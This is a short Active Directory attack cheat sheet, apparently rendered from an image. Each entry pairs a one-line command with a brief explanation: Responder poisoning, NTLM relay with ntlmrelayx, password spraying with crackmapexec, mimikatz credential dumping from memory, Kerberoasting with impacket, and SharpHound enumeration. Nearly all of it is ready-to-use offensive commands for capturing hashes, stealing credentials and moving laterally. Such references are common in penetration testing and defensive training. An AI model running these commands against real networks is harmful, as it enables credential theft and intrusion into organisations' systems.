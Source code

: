 
### Responder LLMNR/NBT-NS Poisoning

```
responder -I INTERFACE
```

Poison LLMNR/NBT-NS traffic to capture hashes from internal hosts.

---

### NTLM Relay Attack

```
ntlmrelayx.py -t TARGET -smb2support
```

Relay captured NTLM authentication to other services for lateral movement.

---

### Password Spraying

```
crackmapexec smb DOMAIN_IP -u usernames.txt -p 'password'
```

Attempt a single common password across multiple accounts to avoid lockouts.

---

### Hash Dumping (Windows)

```
mimikatz.exe 'privilege::debug' 'sekurlsa::logonpasswords' 'exit'
```

Dump credentials from memory of logged-in users for privilege escalation.

---

### Kerberoasting

```
impacket-GetUserSPNs -request -dc-ip DC_IP DOMAIN/username:password
```

Request SPN tickets to crack service account passwords from Active Directory.

---

### BloodHound LDAP Enumeration

```
SharpHound.exe -c All
```

Collect Active Directory objects and relationships for privilege escalation analysis.

---